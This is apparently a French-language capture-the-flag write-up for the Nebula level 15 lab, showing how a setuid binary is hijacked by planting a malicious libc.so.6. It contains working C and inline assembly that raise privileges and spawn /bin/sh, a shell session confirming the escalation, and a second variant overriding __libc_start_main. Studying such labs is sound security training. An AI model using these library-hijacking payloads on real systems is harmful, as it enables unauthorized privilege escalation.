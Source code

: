 ```c
#include <stdlib.h>
#include <unistd.h>


void __attribute__ ((constructor)) my_init(void)
{ 
        __asm(
                // setreuid(984, 984)
                "movl $0x46, %eax\n\t"
                "movl $0x3d8, %ebx\n\t"
                "movl $0x3d8, %ecx\n\t"
                "int $0x80\n\t"

                // execve
                "xor    %ecx, %ecx\n\t"
                "xor    %edx, %edx\n\t"
                "push   %ecx\n\t" // null byte
                "push   $0x68732f2f\n\t" // //sh
                "push   $0x6e69622f\n\t" // /bin
                "mov    %esp, %ebx\n\t"
                "push %edx\n\t"
                "push %ebx\n\t"
                "movl $0xb, %eax\n\t"
                "int    $0x80\n\t"

                // exit
                "xorl %eax,%eax\n\t"
                "xorl %ebx,%ebx\n\t"
                "incl %eax\n\t"
                "int $0x80\n\t"

        );
}
```

Ca fonctionne malgré un warning :

```shellsession
level15@nebula:/tmp$ gcc -shared -nostdlib libc.so.6.c -o /var/tmp/flag15/libc.so.6 
level15@nebula:/tmp$ /home/flag15/flag15 
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
flag15@nebula:/tmp$ getflag
You have successfully executed getflag on a target account
```

J'ai trouvé deux autres solutions sur [information security notes](https://73696e65.github.io/2015/06/exploit-exercises-nebula-11-15#level15).

La première consiste à réécrire `__libc_start_main` :

```c
#include <stdio.h>

int __libc_start_main(int (*main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end)) { 
  setreuid(geteuid(),geteuid());
  execve("/bin/sh", NULL, NULL);

  return 0;
}
```
